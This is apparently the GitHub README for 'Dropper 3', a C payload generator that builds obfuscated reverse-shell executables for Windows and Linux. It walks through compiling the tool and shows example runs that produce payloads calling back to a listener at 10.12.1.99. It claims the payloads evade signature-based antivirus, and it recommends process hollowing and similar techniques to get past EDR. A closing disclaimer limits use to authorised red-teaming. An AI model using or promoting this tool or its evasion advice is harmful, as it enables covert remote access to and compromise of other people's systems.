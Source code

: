 # Dropper 3 (BCE) - The end of a five year long payload generation odyssey.

![](assets/dropper-3-odyssey.gif)

## Prelude

I started this project to discover a fast and efficient way to generate a reverse shell binary payload without a whole lot of fuss for Cyber Security Experts and Red Teamers alike. From the start, I wanted to use a language that I wasn’t too familiar with, as a challenge for myself to develop this solution. I decided to go with Golang since it was rather popular at the time in our community, and I was anxious to learn the language to keep up with the ever evolving trends in InfoSec. Very quickly I realized how powerful a language like Golang is, as well as some of its common drawbacks. As <a href="https://github.com/byt3bl33d3r">Byt3bl33d3r</a> so elequently put it, Go makes THICC malwares, like 1.8 MB THICC! 😳 Not only that, but the Golang runtime environment and related artifacts tend to migrate with any binary file compiled on ones local system, thus leaving tons of forensic clues for Blue Teamers to determine the origin from where the payload was created, and what tools were used, etc. Just a mess. 

Enter <a href="https://github.com/im4x5yn74x/dropper2">Dropper2</a>. While this project served its purpose at addressing all these pesky artifacts left behind, as best as possible, without going full <a href="https://github.com/burrowers/garble">Garble</a> with it, coupled with some randomized obfuscation, helped get the job done at evading Anti-Virus, and some EDR solutions, at least for a little while. The next step in this evolutionary journey was to test out another unique language growing in popularity, Rust. Over the course of a month, learning the language well enough to be dangerous, and creating <a href="https://github.com/Elmofire/ef">Elmofire</a> as a result, I had yet another obfuscated payload generator, leaving Golang behind, at least for now. After all was said and done, Elmofire, the new and improved Dropper, a solution for the community without all the bloated chubby gophers, and yet, I still felt something was missing from my journey into malware development. 

I decided to take a step back and focus on what other malware authors (good and bad) have used in the past. After thumbing through what seems like endless lines of source code on <a href="https://github.com/vxunderground/MalwareSourceCode">VXUG’s Github</a>, I noticed a very obvious common pattern in language choice: C/C++. This was it! I had always wanted to learn C/C++ but had no idea where to start those 5 years ago. I had learned a great deal regarding low level programming since then, including Assembly fundamentals on various architechtures. Finally, my mind felt ready, and like I’ve always done, I rewrote Dropper, now for a 3rd and final time in C. Taking it way back, (Before the Common Era) 😉

So, with the back story out of the way, may I present: Dropper 3.0 (BCE).

## Dependencies

Given the fact we're using C, you're gonna need every type of compiler used by Dropper3 to build each type of binary payload. Run the following command to install the necessary compilers and build libraries:
<code>sudo apt install gcc make gcc-mingw-w64 binutils-mingw-w64 gcc-mingw-w64-i686 binutils-mingw-w64-i686 gcc-mingw-w64-x86-64 binutils-mingw-w64-x86-64 gcc-x86-64-linux-gnux32 binutils-x86-64-linux-gnu gcc-sparc64-linux-gnu binutils-sparc64-linux-gnu gcc-riscv64-linux-gnu binutils-riscv64-linux-gnu gcc-powerpc-linux-gnu binutils-powerpc-linux-gnu gcc-powerpc64-linux-gnu binutils-powerpc64-linux-gnu gcc-mips-linux-gnu binutils-mips-linux-gnu gcc-mips64-linux-gnuabi64 binutils-mips64-linux-gnuabi64 gcc-i686-linux-gnu binutils-i686-linux-gnu gcc-hppa-linux-gnu binutils-hppa-linux-gnu gcc-hppa64-linux-gnu binutils-hppa64-linux-gnu gcc-alpha-linux-gnu binutils-alpha-linux-gnu gcc-arm-linux-gnueabi binutils-arm-linux-gnueabi gcc-aarch64-linux-gnu binutils-aarch64-linux-gnu gcc-s390x-linux-gnu binutils-s390x-linux-gnu</code>

## Usage

Usage is the same as its predecessors, simply compile the source using <code>gcc -o dropper3 dropper3.c</code> and run <code>./dropper3 -h</code>

E.g. Help Menu
<pre>
$ ./dropper3 -h
Usage: Usage of dropper3:
  -a string
                Architecture: i686, amd64, arm, arm64, powerpc64, powerpc, mips, mips64, s390x, sparc64, riscv64, hppa, hppa64, alpha
  -l string
                Listening host: <listening ip:port>
  -o string
                Output filename: <anything goes>
  -p string             Operating System: windows, linux
  -s string
                Shell type: cmd, powershell, /bin/sh, /bin/bash, /usr/bin/zsh, /system/bin/sh, /bin/busybox
</pre>

E.g. Windows Payload
<pre>
$ ./dropper3 -p windows -a amd64 -l 10.12.1.99:1337 -o potato -s cmd
Operating System: windows
Architecture: amd64
Listening host: 10.12.1.99:1337
Output filename: potato
Shell type: cmd
Payload built successfully
</pre>

Confirm result using the <code>file</code> command
<pre>
$ file potato.exe 
potato.exe: PE32+ executable (console) x86-64, for MS Windows
</pre>

E.g. Linux Payload
<pre>
$  ./dropper3 -p linux -a arm64 -l 10.12.1.99:31337 -o chips -s /bin/sh  
Operating System: linux
Architecture: arm64
Listening host: 10.12.1.99:31337
Output filename: chips
Shell type: /bin/sh
Payload built successfully
</pre>

Confirm result using the <code>file</code> command
<pre>
$  file chips 
chips: ELF 64-bit LSB pie executable, ARM aarch64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-aarch64.so.1, BuildID[sha1]=9eefe4521695a769e0a384e87d1d8ea89b45fd8b, for GNU/Linux 3.7.0, not stripped
</pre>

## F.A.Q.

“So what exactly does this accomplish?”

- Other than my own personal accomplishments, not much; only now instead of producing THICC malwares, the payloads created by Dropper 3 are much smaller, like 1.5MB smaller! Huzzah!

“Besides the weight loss, how much has really changed?”

- Not much to be honest. Still using the same obfuscation and randomization techniques as done in Dropper2. Payloads will still evade off-the-shelf signature-based Anti-Virus, however, for EDRs, you’ll want to couple one of these generated payloads with other techniques, such as Fileless PE Loading, Process Hollowing, Döppleganging, etc. Check out <a href="https://github.com/hasherezade/">Hasherazade’s Github</a> for more awesome research on the topic.

“Is this really the end?”

- Yes, this is the end for Dropper rewrites and language developments. I had initially used this project as an intermediate form of <i>Hello World</i> for malware developers, and I highly recommend anyone out there reading this to follow the same principal. Take an idea for some really cool malware/innocent program you’d like to create, then pick a language you’ve never used before and learn it! Learn that language to build the program you want to see come to life in the language you want to see it written in. I promise you, you’ll learn way more than you ever thought you would, and you’ll become a better developer because of it.

“How about that disclaimer?”

- Awww here it goes! 😎

## Disclaimer

This tool is intended for Penetration Testers, Security Researchers and Red Teamers alike. DO NOT USE this tool for ILLEGAL purposes or WITHOUT the CONSENT from the parties involved while agreed upon by LEGAL DOCUMENTATION or PERMISSIVE ACCESS for security consultation or research purposes. I, hereby relinquish ALL responsibility for any illegal use of this tool or ANY binary payloads subsequently generated by the tool as described. You have been warned.
